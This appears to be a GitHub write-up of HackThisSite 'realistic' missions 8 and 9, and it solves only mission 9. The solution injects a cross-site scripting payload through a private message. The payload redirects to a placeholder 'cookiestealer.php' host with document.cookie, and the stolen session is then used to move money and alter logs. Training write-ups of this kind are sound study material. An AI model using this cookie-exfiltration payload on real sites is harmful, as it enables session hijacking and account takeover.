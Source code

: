 # Challenge 8
## Question
From: DarkOneWithANeed

Message: Hey man, you gotta help me out, Gary Hunter, one of the richest men in America, has just deposited $10,000,000 into his bank account at the United Banks Of America and plans to donate that money to a campaign to hunt down and lock up all hackers. Now I've tried hacking their <a href="https://www.hackthissite.org/missions/realistic/8/">site</a> but I'm just not good enough. That's why I need your help, Here's a list of your objectives:
1. Find the account of Gary Hunter (I don't know his account name).
2. Move the $10,000,000 into the account dropCash.
3. Clear The Logs, They're held in the folder 'logFiles'.
I really hope you can do this, because if you can't we're all screwed

## Solutions

# Challenge 9
## Question
From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
1. Try to login using the credential given by the questions
2. When you observe the website in "Demo", you will realize a path way "./files/..."
3. I try to observe the directories in the website and I realize there is a mailing list
4. I "Private Message" enter these : 

Subject : cookiesstealer.php

Message : javascript:void(window.location="www.yourwebsite.com/cookiestealer.php + document.cookie)

5. Cookies is given, replace the cookies in inspection.

![image](https://github.com/user-attachments/assets/d3d310fe-0542-42a4-98ea-82621adb49fd)

6. Go to "Pay Salaries" to complete the transaction 
7. Go to mailing list, switch the txt files in inspection to logs.txt and paste the IP address.

![image](https://github.com/user-attachments/assets/ca2f8d19-1da1-4253-80d6-6cbd3779e294)

## Cross-Site Scripting (XSS) attack

window.location="www.yourwebsite.com/cookiestealer.php + document.cookie"
